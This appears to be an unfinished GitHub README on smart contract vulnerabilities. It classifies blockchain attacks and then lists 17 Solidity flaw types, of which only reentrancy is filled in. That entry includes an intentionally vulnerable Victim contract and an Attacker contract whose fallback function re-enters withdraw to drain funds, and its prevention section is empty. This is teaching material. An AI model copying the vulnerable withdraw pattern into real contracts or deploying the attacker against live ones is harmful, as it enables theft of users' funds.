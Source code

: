 ## Overview : 👉👉👉
```bash
** While blockchain technology is gaining traction, there are potential attacks. For instance, there are currently
emerging DeFi attacks; exchange hacks, among others. However, all blockchain-related attacks are not smart contract attacks.
Some are defraud, malicious, and weak protocol attacks.

The Attack Classification ::📑📑📑
The attacks on smart contract security and blockchain, in general, can be classified into four basic categories.
These categories includes :-

1. malicious attacks: Crypto-jacking, slack, and forum attack

2. weak protocol :  the different protocols are prone to one attack or the other. Some of those attacks are 51% attacks, 
                  Sybill attacks, 34% attack, and denial of service.
                  An Eclipse attack can occur in the same vein to manipulate the peer-to-peer (P2P) network.
                  
3. defraud : Defraud can trick a merchant into releasing his goods before the confirmation of a transaction. 
             In a practical sense, a Bitcoin transaction is confirmed after six transactions.a consumer may try to persuade a merchant to 
             release goods without waiting for up to 6 transactions, so attack techniques like one confirmation or no confirmation 
             can be initiated to double spend.

4. application bugs :  It arises when smart contract developers fail to see code errors in the decentralized application. 
                        An attacker can drain all the money from the smart contract wallet through simple code bugs. Hence, the need 
                        for smart contract audits.
```
## 1. Reentrancy
```bash 
** info : 
While the EVM cannot run multiple contracts at the same time, a contract calling a different contract
pauses the calling contract's execution and memory state until the call returns, 
at which point execution proceeds normally. This pausing and re-starting can create a vulnerability known as "re-entrancy".

** example :
contract Victim {
    mapping (address => uint256) public balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        (bool success, ) = msg.sender.call.value(amount)("");
        require(success);
        balances[msg.sender] = 0;
    }
}
** Imagine this malicious contract from attackers :
contract Attacker {
    function beginAttack() external payable {
        Victim(VICTIM_ADDRESS).deposit.value(1 ether)();
        Victim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
    }
}



** Prevention : 

```
## 2. Arithmatic over/underflows
```bash 
** info : 
** example: 
** Prevention : 
```
## 3. Unexpected ethers 
```bash 
** info : 
** example: 
** Prevention : 
```
## 4. Delegatecall
```bash 
** info : 
** example: 
** Prevention : 
```
## 5. Default Visibilities
```bash 
** info : 
** example: 
** Prevention : 
```
## 6. Entropy Illusion 
```bash 
** info : 
** example: 
** Prevention : 
```
## 7. External Contract Referencing 
```bash 
** info : 
** example: 
** Prevention : 
```
## 8. Short Address/Parameters Attack 
```bash 
** info : 
** example: 
** Prevention : 
```
## 9. Unchecked Call Return Values 
```bash 
** info : 
** example: 
** Prevention : 
```
## 10. Race conditions/front running 
```bash
** info : 
** example: 
** Prevention : 
```
## 11. DDOS attack 
```bash 
** info : 
** example: 
** Prevention : 
```
## 12. Block-timestamp Manipulation 
```bash 
** info : 
** example: 
** Prevention : 
```
## 13. Constructors with Care 
```bash 
** info : 
** example: 
** Prevention : 
```
## 14. Uninitialized Storage Pointers 
```bash 
** info : 
** example: 
** Prevention : 
```
## 15. Floating Point and Precision 
```bash 
** info : 
** example: 
** Prevention : 
```
## 16. Tx.Origin Authentication 
```bash 
```
## 17. Contract Libraries  
```bash 
** info : 
** example: 
** Prevention : 
```




